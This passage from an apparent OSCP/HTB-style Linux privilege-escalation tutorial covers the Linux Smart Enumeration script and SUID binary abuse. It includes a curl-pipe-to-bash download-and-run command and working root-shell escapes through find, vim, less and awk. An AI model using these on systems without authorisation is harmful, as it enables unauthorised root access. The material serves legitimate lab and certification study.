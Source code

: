 #### **Linux Smart Enumeration (LSE)**

**What LSE does:** Alternative enumeration script with different focus areas and detection capabilities. Complements LinPEAS with different perspective on privilege escalation vectors.

```bash
# Download and run LSE
curl -L https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh | bash

# LSE with different verbosity levels
./lse.sh -l 0                                # Minimal output
./lse.sh -l 1                                # Default level
./lse.sh -l 2                                # Detailed output
./lse.sh -l 3                                # Maximum verbosity

# LSE specific sections
./lse.sh -s                                  # Skip slow tests
./lse.sh -i                                  # Include interesting files enumeration

# Why use multiple enumeration tools:
# - Different tools find different vectors
# - Cross-validation of findings
# - Some tools better for specific scenarios
# - Comprehensive coverage increases success rate
```

### **Manual Linux Privilege Escalation Techniques**

#### **SUID Binary Exploitation**

**What SUID binaries are:** Programs that run with the privileges of their owner (often root) regardless of who executes them. Vulnerable SUID binaries are common privilege escalation vectors.

**Why SUID exploitation is crucial:** Very common in HTB/OSCP scenarios. Many legitimate programs have SUID bit set, and some can be abused for privilege escalation.

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null       # Find all SUID binaries
find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null  # Detailed SUID listing
find / -uid 0 -perm -4000 -type f 2>/dev/null  # SUID binaries owned by root

# Common exploitable SUID binaries and techniques:

# 1. find command with SUID
find /home -name "*.txt" -exec /bin/bash \;
# If find has SUID bit, -exec runs commands as root
find . -exec /bin/sh -p \; -quit
# -p flag preserves elevated privileges

# 2. vim/nano editors with SUID
vim
# Inside vim:
:!/bin/bash
# Or
:set shell=/bin/bash
:shell

# 3. less/more pagers with SUID
less /etc/passwd
# Inside less, type:
!/bin/bash

# 4. awk with SUID
awk 'BEGIN {system("/bin/bash")}'

```